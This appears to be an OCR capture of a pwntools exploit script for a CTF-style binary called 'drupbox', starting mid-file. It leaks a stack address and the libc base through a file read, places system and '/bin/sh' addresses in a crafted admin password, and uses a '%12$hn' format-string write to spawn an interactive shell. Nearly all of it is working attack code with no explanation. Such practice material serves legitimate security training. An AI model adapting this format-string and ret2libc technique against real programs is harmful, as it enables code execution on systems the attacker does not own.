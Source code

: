 ```
	p.recvuntil("Logout\n") 
	p.send(num)


file_path="/home/sungyun/round2/drupbox/drupbox"

id="1_4m_3ffr3s\x00_1_w4nt_admin"
passwd="try_h4rder"
MD5_admin="21232f297a57a5a743894a0e4a801fc3"

p=process(file_path)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

"""
userRegister

login_reg("2")
sd_id_pw(id,passwd)
"""

login_reg("1")
sd_id_pw(id,passwd)

after_login("2")
p.recvuntil("filename : ")

p.sendline(MD5_admin)

admin_pw=p.recv(0x340)
admin_pw=admin_pw[:admin_pw.find("\x00")]

stdout=u32(p.recv(4))
p.recv(68)
string=u32(p.recv(4)) # 1. Upload file ~

p.recv(112)
stack_addr=u32(p.recv(2)+"\x00\x00")

#stack_addr=u32(p.recv(4))

loginID=string-0x18e4+0x30a0
libc_base=stdout-0x001b2d60
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

after_login("4")
login_reg("1")

exploit_pw=admin_pw+"\x00"+"A"*2+p32(system)+"AAAA"+p32(sh)
exploit_pw_addr=stack_addr-0x318

sd_id_pw("admin",exploit_pw)

after_login("5")
p.recvuntil("log : ")

pay="%"+str(exploit_pw_addr)+"d"+"%12$hn"
p.send(pay)

p.interactive()
```
